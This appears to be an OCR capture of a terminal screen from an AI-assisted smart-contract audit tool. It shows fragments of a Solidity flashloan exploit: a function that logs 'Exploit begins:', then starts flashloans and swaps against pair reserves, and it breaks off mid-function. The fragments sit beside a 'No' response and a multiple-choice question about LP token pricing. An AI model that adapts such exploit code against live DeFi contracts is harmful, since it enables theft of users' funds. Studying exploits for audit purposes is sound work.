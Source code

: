 │                                                                                                                                                                                                                                                       │
│         emit log_string("Exploit begins:");                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                       │
│         trigger();                                                                                                                                                                                                                                    │
│     }                                                                                                                                                                                                                                                 │
╰───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ No                                                                                                                                                                                                                                                    │
╰───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                          │
│ Code:                                                                                                                                                                                                                                                 │
│     function trigger() public {                                                                                                                                                                                                                       │
│         if (flip.earned(address(this)) > 0) {                                                                                                                                                                                                         │
│             //Initiate flashloans                                                                                                                                                                                                                     │
│             emit log_string("Initiate flashloans...");                                                                                                                                                                                                │
│                                                                                                                                                                                                                                                       │
│             (uint256 _amount0, uint256 _amount1, ) = pairs[0].getReserves();                                                                                                                                                                          │
│             if (WBNB == pairs[0].token1()) {                                                                                                                                                                                                          │
│                 pairs[0].swap(0, _amount1 - 1, address(this), abi.encode(0, 1));                                                                                                                                                                      │
│             } else {                                                                                                                                                                                                                                  │